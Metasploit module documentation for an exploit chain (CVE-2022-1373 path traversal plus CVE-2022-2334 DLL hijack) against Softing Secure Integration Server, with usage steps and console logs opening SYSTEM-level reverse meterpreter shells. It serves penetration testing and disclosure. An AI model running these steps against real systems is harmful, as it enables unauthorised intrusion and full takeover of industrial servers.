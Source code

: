## Description

This module chains 2 vulnerabilities (CVE-2022-1373 and CVE-2022-2334) to achieve authenticated remote code execution against Softing Secure Integration Server v1.22.

This was demonstrated by Steven Seeley and Chris Anastasio of Incite Team as part of Pwn2Own Miami 2022.

In CVE-2022-1373, the restore configuration feature is vulnerable to a directory traversal vulnerablity when processing zip files. When using the "restore configuration" feature to upload a zip file containing a path traversal file which is a dll called ..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Windows\\System32\\wbem\\wbemcomn.dll. This causes the file C:\\Windows\\System32\\wbem\\wbemcomn.dll to be created and executed upon touching the disk.

In CVE-2022-2334, the planted wbemcomn.dll is used in a DLL hijacking attack when Softing Secure Integration Server restarts upon restoring configuration, which allows us to execute arbitrary code on the target system.

The chain demonstrated in Pwn2Own used a signature instead of a password. The signature was acquired by running an ARP spoofing attack against the local network where the Softing SIS server was located. A username is also required for signature authentication. When using asignature, any provided password is ignored. To use passwords again, `unset SIGNATURE`.

A custom DLL can be provided to use in the exploit instead of using the default MSF-generated one. The DLL must be compiled with the correct exports, which can be found in "external/source/exploits/CVE-2022-2334/template.def". It is assumed that the operator has compiled the DLL correctly for the exploit, if a custom DLL is specified.

## Vulnerable Application

This module was tested against version 1.22, installed on Windows Server 2019 Standard x64. Older versions of the vulnerable application are no longer available for download.

## Verification Steps
Example steps in this format (is also in the PR):

1. Start `msfconsole`
2. Do: `use exploit/windows/http/softing_sis_rce`
3. Do: `set RHOSTS <target_ip>`
4. Do: Optional: `set SSL true` if necessary
5. Do: Optional: `set RPORT <target_port>` if SSL is set
6. Do: `set USERNAME <username>` if necessary. Default is `admin`
7. Do: `set PASSWORD <password>` if necessary. Default is `admin`
8. Do: Optional: `set SIGNATURE <signature>` to use signature authentication. `PASSWORD` will be ignored if `SIGNATURE` is set!
9. Do: Optional: `set DLLPATH <path_to_custom_dll>` to use a custom DLL. It is assumed that the DLL is correctly compiled by the operator for the exploit.
10. Do: `exploit` and get a shell
11. Do: Recommended: delete `C:\\Windows\\System32\\wbem\\wbemcomn.dll` 

## Scenarios
### Default options

```
msf > use exploit/windows/http/softing_sis_rce
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf exploit(windows/http/softing_sis_rce) > set RHOSTS 192.168.50.119
RHOSTS => 192.168.50.119
msf exploit(windows/http/softing_sis_rce) > exploit

[*] Started reverse TCP handler on 192.168.50.254:4444
[*] 192.168.50.119:8099 - Found Softing Secure Integration Server 1.22.0.8686
[+] 192.168.50.119:8099 - Valid credentials provided
[*] Generating payload DLL...
[*] Created /home/kali/.msf4/local/wbemcomn.dll
[*] Saving configuration...
[*] Saved configuration to /home/kali/.msf4/local/config_download_5fd1e0fd8cd04a22f38eb8db14df68ff.zip
[*] Sending stage (201798 bytes) to 192.168.50.119
[!] Deleting: C:\Windows\System32\wbem\wbemcomn.dll
[-] Unable to delete - stdapi_fs_delete_file: Operation failed: Access is denied.
[*] Meterpreter session 1 opened (192.168.50.254:4444 -> 192.168.50.119:50525) at 2024-04-11 19:52:35 +0800
[!] This exploit may require manual cleanup of 'C:\Windows\System32\wbem\wbemcomn.dll' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

### Using a signature
```
msf > use exploit/windows/http/softing_sis_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/http/softing_sis_rce) > set RHOSTS 192.168.50.119
RHOSTS => 192.168.50.119
msf exploit(windows/http/softing_sis_rce) > set SIGNATURE f7f623f3d40764a03da6c3379919b964
SIGNATURE => f7f623f3d40764a03da6c3379919b964
msf exploit(windows/http/softing_sis_rce) > exploit

[*] Started reverse TCP handler on 192.168.50.254:4444
[*] 192.168.50.119:8099 - Found Softing Secure Integration Server 1.22.0.8686
[*] 192.168.50.119:8099 - Authenticating as user admin with signature f7f623f3d40764a03da6c3379919b964...
[+] 192.168.50.119:8099 - Signature f7f623f3d40764a03da6c3379919b964 is valid for user admin
[*] Generating payload DLL...
[*] Created /home/kali/.msf4/local/wbemcomn.dll
[*] 192.168.50.119:8099 - Saving configuration...
[*] Saved configuration to /home/kali/.msf4/local/config_download_5fd1e0fd8cd04a22f38eb8db14df68ff.zip
[*] Sending stage (201798 bytes) to 192.168.50.119
[!] Deleting: C:\Windows\System32\wbem\wbemcomn.dll
[-] Unable to delete - stdapi_fs_delete_file: Operation failed: Access is denied.
[*] Meterpreter session 4 opened (192.168.50.254:4444 -> 192.168.50.119:50618) at 2024-04-11 20:00:11 +0800
[!] This exploit may require manual cleanup of 'C:\Windows\System32\wbem\wbemcomn.dll' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

### Using a custom DLL
```
msf > use exploit/windows/http/softing_sis_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/http/softing_sis_rce) > set RHOSTS 192.168.50.119
RHOSTS => 192.168.50.119
msf exploit(windows/http/softing_sis_rce) > set DLLPATH /home/kali/Documents/softing/wbemcomn.dll
DLLPATH => /home/kali/Documents/softing/wbemcomn.dll
msf exploit(windows/http/softing_sis_rce) > exploit

[*] Started reverse TCP handler on 192.168.50.254:4444
[*] 192.168.50.119:8099 - Found Softing Secure Integration Server 1.22.0.8686
[+] 192.168.50.119:8099 - Valid credentials provided
[*] 192.168.50.119:8099 - Saving configuration...
[*] Saved configuration to /home/kali/.msf4/local/config_download_5fd1e0fd8cd04a22f38eb8db14df68ff.zip
[*] Sending stage (201798 bytes) to 192.168.50.119
[!] Deleting: C:\Windows\System32\wbem\wbemcomn.dll
[-] Unable to delete - stdapi_fs_delete_file: Operation failed: Access is denied.
[*] Meterpreter session 5 opened (192.168.50.254:4444 -> 192.168.50.119:50696) at 2024-04-11 20:03:43 +0800
[!] This exploit may require manual cleanup of 'C:\Windows\System32\wbem\wbemcomn.dll' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
